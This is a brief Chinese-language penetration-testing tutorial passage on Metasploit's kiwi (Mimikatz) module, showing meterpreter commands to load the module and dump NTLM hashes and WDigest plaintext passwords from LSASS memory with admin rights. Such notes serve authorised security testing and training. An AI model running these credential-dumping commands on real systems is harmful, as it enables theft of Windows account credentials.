 ### Mimikatz

> Mimikatz模块已经合并为kiwi模块
>
> Mimikatz是一款后渗透测试工具。它能够从Windows认证(LSASS)的进程中获取内存，并且获取明文密码和NTLM哈希值的工具。

1. 加载kiwi插件

2. 查看帮助

   ```
   # meterpreter > load kiwi
   # meterpreter > help kiwi
   ```

   ![Mimikatz_1](./后渗透/Mimikatz_1.png)

3. Retrieve LM/NTLM creds（用户hash口令）

4. Retrieve WDigest creds（用户明文口令）

   ```
   // 需要管理员权限
   # meterpreter > creds_msv
   # meterpreter > creds_wdigest
   ```
